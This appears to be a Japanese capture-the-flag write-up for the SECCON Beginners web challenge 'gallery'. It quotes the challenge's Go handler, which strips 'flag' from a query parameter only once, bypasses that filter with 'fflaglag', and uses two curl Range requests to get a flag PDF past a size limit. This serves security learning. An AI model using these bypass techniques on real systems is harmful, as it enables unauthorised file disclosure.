


# [WEB] gallery 83pts
絵文字のギャラリーを作ったよ！ え？ギャラリーの中に flag という文字列を見かけた？

仮にそうだとしても、サイズ制限があるから flag は漏洩しないはず...だよね？

https://gallery.quals.beginners.seccon.jp/

# Solution

事後報告・LGTMと書かれた画像が gif, jpeg, png でそれぞれ用意されていて、`Please Select!` で拡張子を選択し、表示することができる。とりあえず、jpegを選択してみると、urlが `https://gallery.quals.beginners.seccon.jp/?file_extension=jpeg` になっていることに気づく。この処理を行なっている箇所をソースコードから探すと、以下のコードが見つかった。

### handlers.go
```Go

func IndexHandler(w http.ResponseWriter, r *http.Request) {
	t, err := template.New("index.html").ParseFiles("./static/index.html")
	if err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		log.Println(err)
		return
	}

	// replace suspicious chracters
	fileExtension := strings.ReplaceAll(r.URL.Query().Get("file_extension"), ".", "")
	fileExtension = strings.ReplaceAll(fileExtension, "flag", "")
	if fileExtension == "" {
		fileExtension = "jpeg"
	}
	log.Println(fileExtension)

	data := Embed{}
	data.ImageList, err = getImageList(fileExtension)
	if err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		log.Println(err)
		return
	}

	if err := t.Execute(w, data); err != nil {
		http.Error(w, err.Error(), http.StatusInternalServerError)
		log.Println(err)
		return
	}
}

func getImageList(fileExtension string) ([]string, error) {
	files, err := os.ReadDir("static")
	if err != nil {
		return nil, err
	}

	res := make([]string, 0, len(files))
	for _, file := range files {
		if !strings.Contains(file.Name(), fileExtension) {
			continue
		}
		res = append(res, file.Name())
	}

	return res, nil
}
```

file_extensionで指定した文字が含まれているファイルを表示するっぽい。IndexHandler内でflagと書かれた文字列は削除されてしまうので、それを踏まえ、`file_extension=fflaglag` を試してみると、flagのファイルが表示された。
\
これで終わり！ではなく、middlewareにより、一定以上のファイルサイズは表示されないようになっている。しかし、うまくファイルサイズ問題を解決する方法がわからず、ここで諦めた。writeupを漁る。すると、HTTPにはRange Requestsと呼ばれる取得したいコンテンツの範囲を選択することができる方法があるらしい。これにより、2回に分割してファイルをダウンロードできる。フラグファイルのサイズは16085であることがわかるので、`0-10000`と`10001-16805` で行う。
```Bash
$ curl -H "Range: bytes=0-10000" "https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf" > first.pdf
$ curl -H "Range: bytes=10001-16805" "https://gallery.quals.beginners.seccon.jp/images/flag_7a96139e-71a2-4381-bf31-adf37df94c04.pdf" > second.pdf
$ cat first.pdf second.pdf > flag.pdf
```
flag.pdfを見るとフラグが書かれていた。Range Requests 強すぎや

# Reference
- https://developer.mozilla.org/ja/docs/Web/HTTP/Range_requests#single_part_ranges